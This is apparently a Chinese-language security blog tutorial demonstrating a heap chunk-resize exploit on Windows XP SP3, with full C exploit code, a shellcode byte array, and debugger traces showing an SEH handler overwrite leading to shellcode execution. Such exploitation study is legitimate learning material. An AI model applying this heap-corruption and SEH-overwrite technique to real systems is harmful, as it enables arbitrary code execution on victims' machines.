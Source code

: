 ```yaml
---
layout:		post
title:		利用chunk重设大小攻击堆
author:		wooy0ung
tags:		
category:  	exploit
---
```



>[分析环境]  
>系统: Windows XP Professional sp3 x86  
>编译器: VC++ 6.0  
>调试器: OllyDbg 1.10  
>注意: 原版的OD没法在FreeList操作指令断下, 可以用吾爱破解OD
<!-- more -->


### 0x00 前期准备

新建一个工程, 贴入以下代码

```
#include "stdafx.h"
#include <stdio.h>
#include <windows.h>
#include <stdlib.h>

char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90";

int main(int argc, char* argv[])
{
	HLOCAL h1,h2;
	HANDLE hp;

	hp = HeapCreate(0,0x1000,0x10000);
	__asm int 3
	h1 = HeapAlloc(hp,HEAP_ZERO_MEMORY,3);
	h2 = HeapAlloc(hp,HEAP_ZERO_MEMORY,5);
	memcpy(h1,shellcode,3);
	memcpy(h2,shellcode,5);

	return 0;
}
```

OD附加上去, 单步到完成两次分配

![](/assets/img/exploit/2017-12-31-exploit-by-chunk-resize/0x00.png)

堆表起始于0x00390178, 堆块起始于0x00390680

```
# 第1块
Self Size = 00 04 # 0x04*8=0x20 bytes, 请求3 bytes
Previous chunk Size = 00 08
Cookie = 01
Flags = 07
Unused bytes = 1D # 0x20-0x03=0x1D bytes
Segment index = 00

# 第2块
Self Size = 00 04 # 0x04*8=0x20 bytes, 请求5 bytes
Previous chunk Size = 00 04
Cookie = 05
Flags = 07
Unused bytes = 1B # 0x20-0x05=0x1B bytes
Segment index = 00

# 第3块(空闲大chunk, 未使用)
Self Size = 01 28 # 0x128*8=0x940 bytes, 0x980 - 0x20 * 2 = 0x940
Previous chunk Size = 00 04
Cookie = EE
Flags = 14
Unused bytes = EE
Segment index = 00
```

![](/assets/img/exploit/2017-12-31-exploit-by-chunk-resize/0x01.png)

可以看到这两个chunk的尾部还留有剩余空间, 发现原版OD在调试堆时有问题, 以下该用吾爱破解OD

![](/assets/img/exploit/2017-12-31-exploit-by-chunk-resize/0x02.png)

再重新看一下堆结构

```
# 第1块
Self Size = 00 02 # 0x02*8=0x10 bytes, 请求3 bytes
Previous chunk Size = 00 08
Cookie = 78
Flags = 01
Unused bytes = 0D # 0x10-0x03=0x0D bytes
Segment index = 00

# 第2块
Self Size = 00 02 # 0x02*8=0x10 bytes, 请求5 bytes
Previous chunk Size = 00 02
Cookie = 7A
Flags = 01
Unused bytes = 0B # 0x10-0x05=0x0B bytes
Segment index = 00

# 第3块(空闲大chunk, 未使用)
Self Size = 01 2C # 0x12C*8=0x960 bytes, 0x980 - 0x10 * 2 = 0x960
Previous chunk Size = 00 02
Cookie = 00
Flags = 10
Unused bytes = 00
Segment index = 00
```

![](/assets/img/exploit/2017-12-31-exploit-by-chunk-resize/0x03.png)


### 0x01 exploit

贴入以下代码

```
#include "stdafx.h"
#include <stdio.h>
#include <windows.h>

char shellcode[]=  
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x10\x01\x10\x00\x99\x99\x99\x99"		// Header
"\xEB\x06\x39\x00\xEB\x06\x39\x00"		// Flink Blink
"\x90\x90\x90\x90\x90\x90\x90\x90"  
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"  
"\xEB\x31"		// short jmp
"\x90\x90\x90\x90\x90\x90"  
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"  
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"  
"\x11\x01\x10\x00\x99\x99\x99\x99"		// Header
"\x8C\x06\x39\x00\xE4\xFF\x12\x00"		// fake Flink Blink
"\x90\x90\x90\x90"  
"\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42\x08"
"\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c"
"\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b\x34\xaf\x01"
"\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e\x08\x45\x78\x69"
"\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01"
"\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x67\x20\x20\x01\x68\x79\x30\x75"
"\x6e\x68\x20\x77\x6f\x6f\x89\xe1\xfe\x49\x0b\x31\xc0\x51\x50\xff"
"\xd7";

int main(int argc, char* argv[])
{
	HLOCAL h1,h2;
	HANDLE hp;

	hp = HeapCreate(0,0x1000,0x10000);
	h1 = HeapAlloc(hp,HEAP_ZERO_MEMORY,16);
	memcpy(h1,shellcode,300);
	h2 = HeapAlloc(hp,HEAP_ZERO_MEMORY,16);
	
	int zero=0;
	zero=1/zero;
	printf("%d",zero);

	return 0;
}
```

单步到完成第一次分配

![](/assets/img/exploit/2017-12-31-exploit-by-chunk-resize/0x04.png)
![](/assets/img/exploit/2017-12-31-exploit-by-chunk-resize/0x05.png)

在0x7c931513处下断

```
lea eax,dword ptr ds:[edi+0x8]		// 获取新chunk的Flink位置
mov dword ptr ss:[ebp-0xF0],eax
mov edx,dword ptr ds:[ecx+0x4]		// 获取下一新chunk中的Blink的值
mov dword ptr ss:[ebp-0xF8],edx
mov dword ptr ds:[eax],ecx 			// 保存新chunk的Flink
mov dword ptr ds:[eax+0x4],edx		// 保存新chunk的Blink
mov dword ptr ds:[edx],eax			// 保存下一chunk中的Blink->Flink的Flink
ov dword ptr ds:[ecx+0x4],eax		// 保存下一chunk中的Blink
```

[0x003A06B8] = 0x003A06EB, 新chunk->Flink = 旧chunk->Flink

![](/assets/img/exploit/2017-12-31-exploit-by-chunk-resize/0x06.png)

[0x003A06B8+4] = 0x0012FFE4, 新chunk->Blink = 旧chunk->Flink->Blink

![](/assets/img/exploit/2017-12-31-exploit-by-chunk-resize/0x07.png)
![](/assets/img/exploit/2017-12-31-exploit-by-chunk-resize/0x08.png)

[0x0012FFE4] = 0x003A06B8, 旧chunk->Flink->Blink->Flink = 新chunk, 触发任意写

![](/assets/img/exploit/2017-12-31-exploit-by-chunk-resize/0x09.png)

现在S.E.H链尾节点的Handler已经改写成堆地址

![](/assets/img/exploit/2017-12-31-exploit-by-chunk-resize/0x0a.png)

[0x003A06EB+4] = 0x003A06B8, 旧chunk->Flink->Blink = 新chunk

![](/assets/img/exploit/2017-12-31-exploit-by-chunk-resize/0x0b.png)

当触发异常, 转入shellcode执行

![](/assets/img/exploit/2017-12-31-exploit-by-chunk-resize/0x0c.png)

pwn~

![](/assets/img/exploit/2017-12-31-exploit-by-chunk-resize/0x0d.png)

最后还有点问题, 吾爱破解OD加载时堆基址是0x003A0000, 直接运行要改成0x00390000
